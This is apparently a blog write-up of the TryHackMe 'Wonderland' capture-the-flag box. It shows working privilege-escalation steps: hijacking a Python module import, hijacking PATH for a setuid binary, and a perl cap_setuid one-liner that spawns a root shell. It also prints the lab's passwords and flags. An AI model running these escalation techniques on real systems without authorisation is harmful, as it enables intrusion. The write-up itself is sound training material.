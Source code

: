 ```yaml
---
layout: post
title:  "THM - Wonderland"
date:   2020-07-09 18:00:00 +1000
category: hacking
---
```


## Introduction
*Enter Wonderland and capture the flags.*  

This is a medium ranked 'Alice in Wonderland' themed box. Let's begin.

## Ports
nmap says we've got 22 (SSH) and 80 (HTTP) only.  

## Webserver
*Follow the White Rabbit.*  
*"Curiouser and curiouser!" cried Alice (she was so much surprised, that for the moment she quite forgot how to speak good English)*

There is also a picture of the white rabbit from the story.

Running a gobuster on the homepage reveals an 'r' sub-directory, and a little intuition quickly reveals that there is a whole sequence of directories that looks like this:

>http://10.10.33.51/r/a/b/b/i/t

Actually we can also run steghide on the picture of the white rabbit from the front page with no password, and get the following hint: *follow the r a b b i t* (note the spaces!).

On the last directory, we get some more slightly cryptic text from the novel, and a picture of Alice. If we view the page source, we can see this:

>**alice:HowDothTheLittleCrocodileImproveHisShiningTail**

which are SSH credentials for user Alice.

## SSH
When we SSH in, we can run *sudo -l* and find out that Alice can run a python script as the user rabbit:

``
alice@wonderland:/dev/shm$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
``

The script is owned by root, so we can't edit it. However, when we look inside we can see it imports the 'random' module.

## The import trick
When we run a python import, the first place that python will look for the module to be imported is in the *same* directory that the script being run is in. So, we can make a *random.py* file in the directory with the script, and it will be imported instead of the 'real' random module.

The contents can be as simple as this:

>import os  
os.system("/bin/bash")

And next thing you know we're no longer alice, now we are rabbit.

## Rabbit
>rabbit@wonderland:/home/rabbit$ ls -lash  
snip
 20K -rwsr-sr-x 1 root   root    17K May 25 17:58 teaParty  
rabbit@wonderland:/home/rabbit$ file teaParty  
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped

As shown above, the user 'rabbit' has access to a custom binary called **teaParty** that is owned by root and which runs as the user 'hatter'.

Like using a sledgehammer to crack a walnut, we can disassemble the program with Ghidra, and the source is:

>void main(void)  
{  
  setuid(0x3eb);  
  setgid(0x3eb);  
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");  
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");  
  puts("Ask very nicely, and I will give you some tea while you wait for him");  
  getchar();  
  puts("Segmentation fault (core dumped)");  
  return;   
}  

So we can see it calls the Linux binary 'date' without a path, so we can create our own version of date and use that instead, very much like we did with the python module in the previous step. We begin by making a shell script called **date** in /dev/shm with the contents:

>#!/bin/bash  
echo "hatter incoming"  
/bin/bash  

Next, we append /dev/shm to our path:

``
rabbit@wonderland:/home/rabbit$ export PATH=/dev/shm:$PATH
``

And call ./teaParty. Boom, we are now 'hatter'.

## Hatter
Hatter has a file called 'password.txt' in his home directory, so now we can su as hatter from the other accounts if we want. The password is *WhyIsARavenLikeAWritingDesk?*

We can run linenum, and it doesn't show us *much*, but it does show this:

>[+] Capabilities  
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities  
/usr/bin/perl5.26.1 = cap_setuid+ep  
/usr/bin/mtr-packet = cap_net_raw+ep  
/usr/bin/perl = cap_setuid+ep  

Remember in Mindgames I said it's okay not to know everything, but it's good to learn something? Well, this looks *quite a lot* like the Mindgames privesc.

This [article](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) explains it, and provides an example command for perl (which we need to modify slightly).

``
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
``

When we do this:

``
hatter@wonderland:~$ ls -al /usr/bin/perl
``

We can see that the user 'hatter' can run perl as root.  

>-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl

Since that's us, let's try:

>hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'  
root@wonderland:~#

And we're home and done. The flags are in /root/user.txt and /home/alice/root.txt

>home/alice/root.txt:thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}  
root/user.txt:thm{"Curiouser and curiouser!"}

## Summary
I enjoyed this box, it was a nice series of exploits moving from one user to another. Well done **NinjaJc01**

